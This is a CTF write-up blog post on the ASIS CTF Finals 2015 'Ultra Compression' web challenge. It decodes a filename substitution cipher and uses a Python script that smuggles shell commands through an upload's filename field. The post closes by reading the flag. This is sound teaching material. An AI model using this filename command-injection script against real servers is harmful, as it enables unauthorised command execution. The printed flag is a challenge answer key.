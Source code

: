```yaml
---
layout: post
title: ASIS CTF Finals 2015 - Ultra Compression (Web 125)
author: quanyang
description: ASIS CTF Finals 2015 Web 125. Ultra Compression Service.
tags: [CTF, WEB, ASIS, INJECTION]
categories: [CTF, WEB, INJECTION]
excerpt: ""
share: true
comments: true
--- 
```


ASIS CTF 2015 Finals just took place over the weekend of 10,11 October 2015. The finals is open to all, however only qualified teams will be allowed to win the prizes. NUS Greyhats took part in it and solved a few challenges, this is our write-up for some of the challenges from ASIS CTF 2015 Finals. 

# ultra compression
**Points:**125
**Category:** Web

Go [there](http://ucs.asis-ctf.ir/) and find the flag.

---

# Our solution

Here we were told to go to a webpage to find the flag. Going to the webpage shows an ultra compression service with the ability to upload files.

![]({{site.url|append: site.baseurl}}/resources/images/asis/ucs/service.png){: height="auto" width="600px"}

First thing to do is to upload a legitimate file!
I chose a random image file on my machine to upload.

![]({{site.url|append: site.baseurl}}/resources/images/asis/ucs/upload.png){: height="300px" width="300px"}

By viewing all embeded javascript, we can tell that the file is sent using ajax to the uploader php script.

The uploader php script is located at 'ajax_php_file.php'. However, it seems that the file uploaded is not stored on the server.

{% highlight javascript linenos %}

$(document).ready(function (e) {
$("#upload").on('submit',(function(e) {
e.preventDefault();
$("#message").empty();
$('#loading').show(1000);
$.ajax({
url: "ajax_php_file.php", // Url to which the request is send
type: "POST",             // Type of request to be send, called as method
data: new FormData(this), // Data sent to server, a set of key/value pairs (i.e. form fields and values)
contentType: false,       // The content type used when sending data to the server.
cache: false,             // To unable request pages to be cached
processData:false,        // To send DOMDocument or non processed data file it is set to false
success: function(data)   // A function to be called if request succeeds
{
	$('#loading').hide();
	$("#message").hide(1000);
	$("#message").show(500);
	$("#message").html(data);
}
});
}));

{% endhighlight %}

Using the Chrome browser's developer tool, we can inspect the response of the ajax call.

![]({{site.url|append: site.baseurl}}/resources/images/asis/ucs/crypt.png){: height="300px" width="auto"}

As you can see, the filename
`Screen Shot 2015-10-11 at 00.40.02.png`
gets encrypted to
`ow.nnm oOsV G1ig-i1-ii cV 11Jh1J1GJ5my`

Following this finding, we can attempt to map every possible plaintext to their corresponding ciphertext, this gives us the mapping of:

`crypt = "YLyA83tfONHDInmSc7JCb64PBxQaZTRu.viMWj9lhzgwGdeqEV25Kos1Fkp0/Xr"`
`plain = ".0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"`

Attempting to insert a semi-colon into the filename shows that the field was injectable.
![]({{site.url|append: site.baseurl}}/resources/images/asis/ucs/injection.png){: height="200px" width="auto"}

Using a python script to automatically map payload back to their corresponding plaintext, we can then inject commands to the website.

{% highlight python linenos %}
import subprocess,sys

crypt = "YLyA83tfONHDInmSc7JCb64PBxQaZTRu.viMWj9lhzgwGdeqEV25Kos1Fkp0/Xr"
plain = ".0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

mapping = dict()

for x,p in enumerate(plain):
	mapping[crypt[x]] = p

inject = sys.argv[1]

out = ""

for x in inject:
	if x in mapping:
		out = out + mapping[x]
	else:
		out = out + x

print out

cmd = "curl 'http://ucs.asis-ctf.ir/ajax_php_file.php' -H 'Pragma: no-cache' -H 'Origin: http://ucs.asis-ctf.ir' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-GB,en;q=0.8,en-US;q=0.6,id;q=0.4' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.101 Safari/537.36' -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryes1iD3vHWDOD2gkZ' -H 'Accept: */*' -H 'Cache-Control: no-cache' -H 'X-Requested-With: XMLHttpRequest' -H 'Cookie: PHPSESSID=' -H 'Connection: keep-alive' -H 'Referer: http://ucs.asis-ctf.ir/' -H 'DNT: 1' --data-binary $'------WebKitFormBoundaryes1iD3vHWDOD2gkZ\r\nContent-Disposition: form-data; name=\"file\"; filename=\""+out+"\"\r\nContent-Type: image/png\r\n\r\n\r\n------WebKitFormBoundaryes1iD3vHWDOD2gkZ--\r\n' --compressed"

p = subprocess.Popen(cmd,shell=True,stdout=subprocess.PIPE)

out = p.communicate()
print out
{% endhighlight %}

Traversing to /home/asis/, we can then do a ls to see that the flag.txt is kept there. Finally, using a cat command, we can obtain the flag!

![]({{site.url|append: site.baseurl}}/resources/images/asis/ucs/flag.png){: height="200px" width="auto"}

And we have our flag: **ASIS{72a126946e40f67a04d926dd4786ff15}**